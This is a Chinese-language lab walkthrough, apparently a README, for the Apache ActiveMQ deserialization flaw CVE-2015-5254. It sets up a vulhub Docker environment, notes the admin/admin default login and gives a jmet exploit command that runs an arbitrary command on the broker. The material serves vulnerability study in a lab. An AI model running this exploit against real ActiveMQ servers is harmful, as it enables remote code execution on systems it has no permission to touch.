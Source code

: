# 漏洞介绍 #
ActiveMQ反序列化漏洞（CVE-2015-5254）
中文版本(Chinese version)

Apache ActiveMQ是由美国Pachitea（Apache）软件基金会开发的开源消息中间件，支持Java消息传递服务，集群，Spring框架等。

Apache ActiveMQ版本5.x在5.13.0安全漏洞之前，该程序引起的漏洞不限制可以在代理中序列化的类。远程攻击者可以使特殊的序列化Java消息服务（JMS）ObjectMessage对象利用此漏洞来执行任意代码。

参考链接：

https://www.blackhat.com/docs/us-16/materials/us-16-Kaiser-Pwning-Your-Java-Messaging-With-Deserialization-Vulnerabilities.pdf


# 环境准备 #

```angular2html
sudo apt-get install docker
sudo apt-get install docker-compose
git clone https://github.com/vulhub/vulhub.git
cd activemq
cd CVE-2015-5254
docker-compose up -d
```
运行环境后，它将在端口61616和8161上建立两个端口。端口61616是工作端口，并在此端口上传递消息。端口8161是网页管理页面端口。访问http://your-Ip:8161，您可以看到网络管理页面

管理后台的路径是：/admin/browse.jsp?JMSDestination=Event

默认密码为：admin/admin

![](https://s2.ax1x.com/2019/01/16/kS0FEj.png)

# 利用 #

```angular2html
git clone https://github.com/matthiaskaiser/jmet.git
cd jmet
wget https://github.com/matthiaskaiser/jmet/releases/download/0.1.0/jmet-0.1.0-all.jar
```

![](https://s2.ax1x.com/2019/01/16/kS0xo9.md.png)

![](https://s2.ax1x.com/2019/01/16/kSBiQK.png)

利用：

```angular2html
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "你要执行的命令" -Yp ROME your-ip 61616
例子：java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "touch /lbq" -Yp ROME 192.168.3.29 61616
```

![](https://s2.ax1x.com/2019/01/16/kSB8eg.png)